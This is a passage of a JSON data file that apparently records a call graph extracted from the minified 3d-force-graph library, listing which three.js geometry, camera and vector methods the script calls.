"EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setXYZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setXYZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setXYZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setXYZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setXYZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setXYZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalizeNormals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalizeNormals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setXYZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toNonIndexed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addGroup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addGroup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMorphTargets"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMorphTargets"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getVertexPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "raycast"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "recast"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "containsPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_computeIntersections"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_computeIntersections"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getVertexPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getVertexPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getVertexPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectTriangle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getInterpolation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getInterpolation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getInterpolation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getNormal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addGroup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mergeUniforms"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getWorldDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getWorldDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "negate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrixWorld"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrixWorld"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateWorldMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateWorldMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFocalLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getFilmHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getFocalLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getFilmHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getEffectiveFOV"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getFilmWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getFilmHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getViewBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getViewSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getViewBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setViewOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clearViewOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getFilmWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makePerspective"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateCoordinateSystem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", 